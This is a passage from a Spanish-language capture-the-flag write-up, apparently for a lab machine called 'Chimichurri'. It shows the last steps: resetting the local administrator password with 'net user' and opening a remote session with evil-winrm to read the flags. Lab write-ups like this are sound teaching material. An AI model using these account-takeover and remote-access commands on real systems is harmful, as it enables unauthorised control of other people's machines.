 ![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307232427.png>)

Para poder convertirnos en el usuario **Adminsitrador**, debemos de cambiarle la contraseña usando el siguiente comando.

```ps
net user administrador Trr0r123
```

La contraseña se ha cambiado exitosamente.

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307232650.png>)

Nos conectaremos como el usuario **Adminsitrador** haciendo uso de **evil-winrm**.

```bash
evil-winrm -i 192.168.200.4 -u 'administrador' -p 'Trr0r123'
```

Finalmente, veremos que ahora si que podemos leer las flags.

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307232811.png>)